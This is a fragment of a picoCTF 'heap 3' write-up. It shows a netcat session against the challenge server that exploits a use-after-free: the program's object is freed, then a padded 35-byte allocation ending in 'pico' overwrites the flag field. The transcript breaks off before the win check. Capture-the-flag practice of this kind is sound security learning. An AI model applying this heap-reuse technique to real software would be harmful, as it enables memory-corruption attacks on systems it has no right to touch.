 ```css
picoCTF{heap3}
```


online on server
```css
┌──(myenv)─(kali㉿kali)-[~/Downloads/heap3]
└─$ nc tethys.picoctf.net 61217

freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 1
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x10442ce  ->   bico
+-------------+-----------+

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: 0123456789abcdef0123456789abcdpico

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 3


x = pico


1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
```